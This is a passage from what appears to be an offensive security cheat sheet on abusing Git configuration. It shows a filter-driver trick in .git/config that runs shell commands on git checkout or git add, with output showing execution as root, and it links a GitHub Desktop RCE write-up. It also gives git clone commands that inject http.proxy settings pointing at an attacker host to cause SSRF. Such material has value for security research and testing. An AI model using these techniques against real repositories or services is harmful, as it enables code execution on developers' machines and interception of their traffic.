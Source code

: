 ```bash
On branch master
Untracked files:
  (use "git add <file>..." to include in what will be committed)
	.gitattributes

nothing added to commit but untracked files present (use "git add" to track)

$ git add .gitattributes
Pwned clean as uid=0(root) gid=0(root) groups=0(root)
```

```bash
$ cd $(mktemp -d)
# initialized empty Git repository in /tmp/tmp.hLncfRcxgC/.git/
$ git init
# filter.&lt;driver&gt;.clean and filter.&lt;driver&gt;.smudge
# so that they echo a message to STDERR whenever they are invoked
$ echo $'[filter "any"]\n\tsmudge = echo \\"Pwned smudge as $(id)\\">&2\n\tclean = echo \\"Pwned clean as $(id)\\">&2' >> ./.git/config
# add filter to .gitattributes
$ echo "*  text  filter=any" > .gitattributes
$ git fetch
$ git checkout main
Pwned smudge as uid=0(root) gid=0(root) groups=0(root)
Pwned smudge as uid=0(root) gid=0(root) groups=0(root)
Branch 'main' set up to track remote branch 'main' from 'origin'.
Switched to a new branch 'main'
```

References:
- [Write up: RCE in GitHub Desktop < 2.9.4](https://github.com/Metnew/write-ups/tree/main/rce-github-desktop-2.9.3)

#### http.proxy and http.&lt;URL&gt;.proxy

`http.proxy` or `http.<URL>.proxy` override the HTTP proxy. You can use this to get SSRF:

```bash
$ git clone -c http.proxy=http://attacker-website.com -- "<REPO>" target_directory
$ git clone -c http.http://website.com/.proxy=http://attacker-website.com -- "<REPO>" target_directory
```

Pay attention to other `http.*` configs and `remote.<name>.proxy`, they can help to increase the impact.

References:
- [Report: Injection of `http.<url>.*` git config settings leading to SSRF](https://hackerone.com/reports/855276)
- [git-config docs: http.proxy](https://git-scm.com/docs/git-config#Documentation/git-config.txt-httpproxy)
- [git-config docs: remote.<name>.proxy](https://git-scm.com/docs/git-config#Documentation/git-config.txt-remoteltnamegtproxy)
